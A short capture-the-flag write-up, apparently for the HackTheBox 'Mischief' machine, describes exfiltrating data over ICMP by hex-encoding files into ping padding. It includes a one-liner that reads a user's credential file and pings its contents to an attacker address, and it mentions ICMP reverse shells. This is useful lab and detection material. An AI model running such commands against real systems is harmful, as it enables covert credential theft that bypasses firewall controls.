# Alternative way to exploit Mischief

## Getting command execution without IPv6

After becoming _loki_ on the box, we need to get _www-data_ to execute `su`.
As connections from the web page via a reverse shell were blocked by a firewall, the **IPv6** address was used to bypass this restriction.

Now imagine there is no **IPv6** or these connections are also blocked, so there has to be another way to get a shell from this web application.
There are ways to start shells with with **ICMP** via `ping`.

#### Example

With the `-p` parameter, it is possible to send up to 16 byte pad to fill the packet:
```markdown
ping -c 1 -p randompattern 127.0.0.1
```

Any strings can now be sent like this. Creating a file _(test.txt)_ with the following content:
```markdown
Testing with random strings
```

Converting to hexadecimal in 16 byte chunks:
```markdown
xxd -p -c 16 test.txt
```

Sending every line to `ping`:
```markdown
xxd -p -c 16 test.txt | while read line; do ping -c 1 -p $line 127.0.0.1; done
```

### Reading files with ICMP

Now this is used to read the _credential_ file for example:
```markdown
xxd -p -c 16 /home/loki/cred* | while read line; do ping -c 1 -p $line 10.10.14.2; done
```

There is also the possibility to start an **ICMP reverse shell** with this method.
